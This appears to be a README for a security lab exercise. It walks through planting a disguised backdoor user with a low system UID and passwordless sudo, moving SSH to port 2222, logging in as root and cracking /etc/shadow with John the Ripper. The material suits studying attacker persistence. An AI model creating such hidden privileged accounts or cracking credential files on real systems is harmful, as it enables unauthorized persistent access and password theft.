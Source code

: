 # -Advanced-Bash-Owning-the-System
This exercise involves setting up a secret user named 'sysd' with specific privileges and configurations in a Linux environment. The goal is to demonstrate advanced Bash skills related to user management, SSH configuration, Sudo access, and password cracking.

Step-by-Step Instructions:

Step 1: Shadow People

Create the secret user named 'sysd' without a home folder:
sudo useradd sysd --no-create-home

Set a password for the 'sysd' user:
sudo passwd sysd
(Enter and confirm the desired password)

Assign a system UID < 1000 to the 'sysd' user:
sudo usermod -u <UID> sysd
Replace <UID> with the desired UID number.

Assign the same GID to the 'sysd' user:
sudo usermod -g <GID> sysd
Replace <GID> with the desired GID number.

Grant full sudo access to 'sysd' without password:
Edit the sudoers file to allow 'sysd' to execute commands as root without a password prompt.
sudo visudo

Add the following line to the file:
sysd ALL=(ALL) NOPASSWD: ALL
Test sudo access:
Verify that sudo access works for 'sysd' without a password.
sudo ls /root

Step 2: Smooth Sailing

Edit the sshd_config file:
Open the sshd configuration file using nano (or preferred text editor).
sudo nano /etc/ssh/sshd_config
(Make necessary changes and save the file)

Step 3: Testing Your Configuration Update
Restart the SSH service:
Restart the SSH service to apply the configuration changes.
sudo service ssh restart
Exit the root account:

If currently in a root session, exit back to the 'sysd' user.
exit

SSH to the target machine using the 'sysd' account and port 2222:
Connect to the target machine using SSH and specify port 2222.

ssh -p 2222 sysd@192.168.6.105
Switch to the root user using sudo:
Gain root access on the target machine from the 'sysd' account.
sudo -i

Step 4: Crack All the Passwords
SSH back to the system using the 'sysd' account and port 2222:
Reconnect to the system using SSH with the 'sysd' account.
ssh -p 2222 sysd@192.168.6.105

Escalate privileges to root and use John to crack the /etc/shadow file:
Gain root privileges on the target system and use John the Ripper to crack passwords.
sudo john /etc/shadow

(Proceed with password cracking as needed)
Ensure to replace placeholders like <UID> and <GID> with appropriate values as per your setup. This exercise explores advanced Bash commands for user management, privilege escalation, SSH configuration, and password security testing.
